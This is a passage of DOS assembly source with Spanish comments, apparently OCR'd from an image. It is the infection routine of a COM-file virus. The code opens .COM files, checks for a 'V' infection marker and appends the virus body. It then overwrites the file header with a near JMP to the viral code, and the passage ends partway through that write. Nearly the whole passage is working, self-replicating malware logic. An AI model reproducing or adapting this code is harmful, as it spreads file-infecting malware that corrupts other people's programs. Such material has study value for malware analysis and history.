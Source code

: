    jne loop_str
    lodsb
    cmp al, 'C'
    jne check_fail
    lodsb
    cmp al, 'O'
    jne check_fail
    lodsb
    cmp al, 'M'
    je check_ok
    
check_fail:    
    jmp close_file

check_ok:    
    mov ah, 3Dh                                      ; | AH = 3Dh
    mov al, 2                                        ; | AL = 2, lectura y escritura
    int 21h                                          ; |_DOS API &#8211; Abrir archivo existente        

    jc exit                                          ; si no se puede abrir archivo, restaurar y delegar
    xchg ax, bx                                      ; handle de archivo en BX
    push cs
    pop ds                                           ; MOV DS, CS
    mov ah, 3Fh                                      ; | AH = 3Fh
    mov dx, V_OFFSET + offset host_head              ; | DS:DX -> destino: buffer para cabezal original
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes
    int 21h                                          ; |_DOS API - Leer de archivo/dispositivo

    jc close_file                                    ; no se puede leer el archivo, cerrarlo

    cmp byte ptr ds:[V_OFFSET + host_head + 3], 'V'  ; comparar 4to byte con la firma viral 'V'
    je close_file                                    ; si el archivo ya esta marcado, cerrarlo

    mov ah, 42h                                      ;| AH = 42h
    mov al, 2                                        ;| AL = 2, fin del archivo
    xor cx, cx                                       ;| CX = 0
    xor dx, dx                                       ;| DX = 0
    int 21h                                          ;|_DOS API - Establecer puntero en archivo  

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo
                     
    mov ds:[V_OFFSET + file_size], ax
    mov ah, 40h                                      ; | AH = 40h
    mov cx, VIRUS_SIZE                               ; | CX = tamaño del virus
    mov dx, 0                                        ; | DS:DX -> origen: inicio del código viral
    int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo  

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ax, ds:[V_OFFSET + file_size]                ; calcular el largo del JMP para el cabezal viral
    sub ax, 3                                        ; restarle 3 bytes del near JMP
    mov byte ptr ds:[V_OFFSET + tmp_head], 0E9h      ; construir cabezal viral en buffer temporal (E9h = near JMP)
    mov word ptr ds:[V_OFFSET + tmp_head + 1], ax
    mov byte ptr ds:[V_OFFSET + tmp_head + 3], 'V'      

    mov ah, 42h                                      ; | AH = 42h
    mov al, 0                                        ; | AL = 0, principio del archivo
    xor cx, cx                                       ; | CX = 0
    xor dx, dx                                       ; | DX = 0
    int 21h                                          ; |_DOS API - Establecer puntero en archivo   
    
    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ah, 40h                                      ; | AH = 40h
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes
    mov dx, V_OFFSET + offset tmp_head               ; | DS:DX -> origen: buffer temporal para cabezal viral